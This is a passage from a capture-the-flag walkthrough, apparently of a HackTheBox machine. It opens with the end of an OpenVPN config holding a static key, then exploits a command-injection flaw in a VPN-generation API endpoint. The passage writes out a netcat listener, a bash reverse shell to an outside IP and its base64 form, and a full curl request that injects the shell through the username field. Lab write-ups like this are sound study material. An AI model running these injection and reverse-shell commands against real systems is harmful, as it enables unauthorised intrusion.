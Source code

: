 ```data
-----END PRIVATE KEY-----
</key>
<tls-auth>
#
# 2048 bit OpenVPN static key
#
-----BEGIN OpenVPN Static key V1-----
45df64cdd950c711636abdb1f78c058c
358730b4f3bcb119b03e43c46a856444
05e96eaed55755e3eef41cd21538d041
079c0fc8312517d851195139eceb458b
f8ff28ba7d46ef9ce65f13e0e259e5e3
068a47535cd80980483a64d16b7d10ca
574bb34c7ad1490ca61d1f45e5987e26
7952930b85327879cc0333bb96999abe
2d30e4b592890149836d0f1eacd2cb8c
a67776f332ec962bc22051deb9a94a78
2b51bafe2da61c3dc68bbdd39fa35633
e511535e57174665a2495df74f186a83
479944660ba924c91dd9b00f61bc09f5
2fe7039aa114309111580bc5c910b4ac
c9efb55a3f0853e4b6244e3939972ff6
bfd36c19a809981c06a91882b6800549
-----END OpenVPN Static key V1-----
</tls-auth>
```


Nothing seems really off, but, in case the system is generating this VPN files by using a php function such as `exec` or `system`, we could try [command injection](../../CHEATSHEET/Command%20Injection.md), let's test with a simple `id`:

![Pasted image 20250106172955.png](../../IMAGES/Pasted%20image%2020250106172955.png)

That's right, this endpoint is vulnerable to command injection, we can get a reverse shell in the following way:

```ad-hint

1. Setting up our listener: `nc -lvnp 4444`
2. Sending the following payload: `bash -i >& /dev/tcp/OUR_VPN_IP/LISTENER_PORT 0>&1`, for this case: `bash -i >& /dev/tcp/10.10.15.36/4444 0>&1`
3. Encoding the payload in base64, for this case, this was my encoded payload: `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE=`
4. Sending the command injection and getting the shell.

#### Output
----

Sent payload: `curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=lc3vb3f7nhk6krnqls1oc2t93t" --header "Content-Type: application/json" --data '{"username":"testhackerUsername;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zNi80NDQ0IDA+JjE= | base64 -d | bash;"}'`

```
